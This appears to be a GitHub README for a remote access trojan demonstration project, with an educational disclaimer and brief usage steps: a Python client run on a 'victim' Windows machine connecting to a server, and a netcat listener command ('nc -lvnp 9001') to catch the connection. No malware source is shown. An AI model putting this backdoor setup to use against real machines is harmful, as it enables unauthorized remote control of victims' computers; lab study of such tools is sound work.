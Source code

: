 # RAT malware demostration

<hr>

DISCLAIMER: **This repo is created to demonstrate how a remote backdoor works. Hacking without permission is illegal. This is strictly educational for learning about malware cyber-security in the areas of ethical hacking so that we can protect ourselves against the real black-hat hackers.**

<hr>

# Usage

## Set-up
Set up a safe virtual network with both a **Windows 10** machine and any other OS able to listen for connections on a specified port

## Usage

### Client (victim)

```bash
python3 ./client/src/client_main.py <IP of server>
```

### Server

Listen on specified port for connections (default set to 9001): 
```bash
nc -lvnp 9001
```
